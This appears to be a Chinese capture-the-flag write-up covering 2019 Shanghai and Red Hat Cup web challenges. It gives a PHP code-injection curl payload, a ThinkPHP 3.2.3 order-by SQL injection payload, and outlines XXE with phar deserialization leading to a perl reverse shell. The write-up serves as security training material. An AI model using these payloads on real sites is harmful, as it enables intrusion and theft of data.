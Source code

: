 ```
title: 2019WriteUp 汇总 VOL 3
summary: 2019上海大学生网络安全邀请赛 && 2019红帽杯
featured-img: 2019-wp-vol3
layout: post
```

+ [2019上海大学生网络安全邀请赛](#2019上海大学生网络安全邀请赛)
+ [2019红帽杯](2019红帽杯)

## 2019上海大学生网络安全邀请赛

### PHP

byteCTF boring_code++

```
curl "http://9f541345e3134764922236b093730b44cf8166f9f5cf4994.changame.ichunqiu.com/code/?code=echo(serialize(file(end(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion()))))))))))))))));"
```

***

## 2019红帽杯

### ticker_system

上传xml文件 + XXE

构造tp5.2的反序列化pop链，xxe `SYSTEM "phar://"`触发

服务器perl反弹shell后执行`/flag` ，trap bypass交互式验证码即可

***

### easyweb

tp3.2.3 order by报错注入

无报错回显，但可列目录

```
orderby[updatexml(1,concat(0x25,(select/**/flaag/**/from/**/fl4g)),1)%23]=1
```

`/App/Runtime/Logs/Api/19_11_11.log`看回显